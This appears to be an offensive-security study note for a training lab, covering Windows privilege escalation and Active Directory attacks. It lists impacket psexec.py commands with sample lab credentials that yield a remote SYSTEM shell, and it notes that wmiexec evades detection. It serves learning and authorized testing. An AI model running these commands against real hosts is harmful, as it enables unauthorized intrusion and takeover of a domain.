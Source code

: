 
### Privileges escalation 

There are several ways to gain SYSTEM-level access on a host, including but not limited to:

- Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
- Abusing a service running in the context of the `SYSTEM account`, or abusing the service account `SeImpersonate` privileges using [Juicy Potato](https://github.com/ohpe/juicy-potato). This type of attack is possible on older Windows OS' but not always possible with Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0-day.
- Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window


By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as, but not limited to:

- Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
- Perform Kerberoasting / ASREPRoasting attacks within the same domain.
- Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

#####  PSExec.py

Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Another way
impacket-psexec administrator:'<password>'@$ip
# Examples:
# psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.130
# impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.130
```

```
# Results
C:\Windows\system32>whoami
nt authority\system
```
##### wmiexec.py

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands).
